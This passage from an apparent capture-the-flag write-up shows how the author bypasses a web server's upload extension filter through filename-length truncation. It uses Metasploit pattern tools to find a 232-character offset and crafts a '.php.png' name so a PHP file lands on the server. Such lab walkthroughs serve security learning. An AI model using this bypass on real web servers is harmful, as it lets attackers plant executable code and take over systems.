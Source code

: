 After some research on the **Internet**, I found an excellent resource **[“Unrestricted File Upload Testing & Bypass Techniques”](https://www.aptive.co.uk/blog/unrestricted-file-upload-testing/){:target="_blank"}**, where I can start testing vulnerabilities in the Web server to upload files of the extension that I need. One technique to bypass the restriction on the type of extension I can upload is to play with the length of the file name, in **Linux** Operating Systems there is a maximum of **255 bytes**, so I'm testing upload and confirm that the file is uploaded but **the name is shortened** if it exceeds a length that <ins>I don't know yet</ins>.

```bash
python3 -c 'print("A"*255 + ".png")'
touch AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.png

python3 -c 'print("B"*250 + ".png")'
touch BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.png
# :)

python3 -c 'print("B"*250 + ".png")'
mv catpwn3d.jpg BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.png
python3 -m http.server 80
```

<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

To know the exact length, so that I can upload a file with the extension I need, I can use the `pattern_create.rb` and `pattern_offset.rb` scripts. Once I have the **offset** value I need, I upload an image with **.php** extension, which I know the code will be able to interpret, and I get it to be hosted on the web server, the content displayed on the Web is illegible because it is an image but if I try with a **PHP** file it would surely be displayed correctly.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 250
mv hashcat.png Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A.png
python3 -m http.server 80

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q h7Ah
# [*] Exact match at offset 232

python3 -c 'print("B"*232 + ".php.png")'
mv pwnedcat.png BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.php.png
python3 -m http.server 80
```
